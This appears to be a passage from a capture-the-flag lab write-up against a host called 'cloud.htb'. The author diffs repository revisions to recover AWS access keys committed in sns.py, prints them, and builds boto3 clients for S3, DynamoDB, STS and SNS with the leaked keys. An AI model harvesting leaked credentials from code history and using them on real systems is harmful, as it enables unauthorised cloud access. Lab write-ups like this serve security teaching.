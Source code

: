 We can see that in `r2` `sns.py` is committed to the repository, which is later removed in `r3` and added again in `r4`. The differences are interesting:

```bash
$ diff store4 store2
diff --color store4/sns.py store2/sns.py
20,21c20,21
< access_key = ''
< secret_access_key_id = ''
---
> access_key = 'AKIA5M34BDN8GCJGRFFB'
> secret_access_key_id = 'cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
```

We now have some AWS access tokens which hopefully we can work with.

```
access_key = 'AKIA5M34BDN8GCJGRFFB'
secret_access_key_id = 'cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
```

### Checking access keys with `boto3`

Similarly as in [sns.py](files/store%405/sns.py), we define a couple `boto3` clients with the extracted access keys:

- `s3`: Amazon Simple Storage Service (Amazon S3)
- `dynamodb`: Amazon DynamoDB Database
- `sts`: AWS Security Token Service API (STS)
- `sns`: Amazon Simple Notification Service (SNS)

It is also important to add `cloud.htb` to `/etc/hosts` with the private IP of the target host as `http://cloud.htb` is used as an `endpoint_url`.

```python
import boto3

s3 = boto3.client('s3',
            region_name='us-east-2',
            endpoint_url='http://cloud.htb',
            aws_access_key_id='AKIA5M34BDN8GCJGRFFB',
            aws_secret_access_key='cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
        )

dynamodb = boto3.client('dynamodb',
            region_name='us-east-2',
            endpoint_url='http://cloud.htb',
            aws_access_key_id='AKIA5M34BDN8GCJGRFFB',
            aws_secret_access_key='cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
        )

sts = boto3.client('sts',
            region_name='us-east-2',
            endpoint_url='http://cloud.htb',
            aws_access_key_id='AKIA5M34BDN8GCJGRFFB',
            aws_secret_access_key='cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
        )

sns = boto3.client('sns',
            region_name='us-east-2',
            endpoint_url='http://cloud.htb',
            aws_access_key_id='AKIA5M34BDN8GCJGRFFB',
            aws_secret_access_key='cnVpO1/EjpR7pger+ELweFdbzKcyDe+5F3tbGOdn'
        )
```
